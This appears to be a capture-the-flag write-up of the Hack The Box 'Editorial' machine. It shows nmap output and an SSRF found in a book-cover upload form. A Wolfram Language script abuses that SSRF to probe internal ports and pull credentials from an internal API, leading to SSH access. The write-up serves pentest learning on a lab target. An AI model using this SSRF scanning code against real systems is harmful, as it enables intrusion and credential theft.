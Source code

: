 Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is a vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I launched a web browser to review the site, which redirected to hxxp[://]editorial[.]htb, but the page didn’t load since editorial.htb didn't resolve. After adding editorial.htb and its IP address to /etc/hosts, I reloaded the page and could access it.

Soon after, I found a page with a "Book information" form and started testing it. The first field allowed me to enter a URL, so I provided one that pointed back to the IP address of my VPN interface on my Kali VM. I then started a netcat listener on port 80 on my VM.

![Editorial Upload Page](Images/UWLPT/01-ssrf.png)

After a couple of false starts, I was able to determine that I needed to select "Preview" to receive a connection back. I was using Burp Suite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


![Netcat listener connection along with BurpSuite Request and Response](Images/UWLPT/02-ssrf-confirmed.png)

Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


![Probing localhost](Images/UWLPT/04-localhost.png)

My next approach was to determine if another web server or service was running locally. To test this, I needed to scan all 65,535 possible TCP ports internally. While testing each port isn't challenging, automating it requires crafting requests that dynamically insert each port, like` http://127.0.0.1:FUZZ`, and then reviewing the responses. Although tools like ffuf are well-suited for this task, I decided to experiment with Wolfram Mathematica to explore its potential in this context.

I started by taking a basic HTTP request template from Burp Suite and converting it into a function template in Wolfram Language that allowed for port insertion. While I’m not a pro with Wolfram Language, the solution worked for this purpose. Below is the code that makes these requests. It takes a port number as input, and if the response body doesn’t contain /static/images/, it outputs the port and response body. If /static/images/ is found, it simply prints the port number to confirm the code's functionality.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports, so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.

![](Images/UWLPT/12-wl-popular-web-service-ports.png)

Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 

![JSON Response Text](Images/UWLPT/14-wl-json.png)

Let's retrieve all the endpoints, and as one can see below, login credentials are retrieved.

![Credentials for dev](Images/UWLPT/15-wl-found-password.png)

I was able to use the credentials to get a shell on the machine using ssh impersonating dev. While enumerating and finding the initial exploit didn't use standard hacker tools, I did find devising an alternative exploit tool using Wolfram Mathematica satisfying. 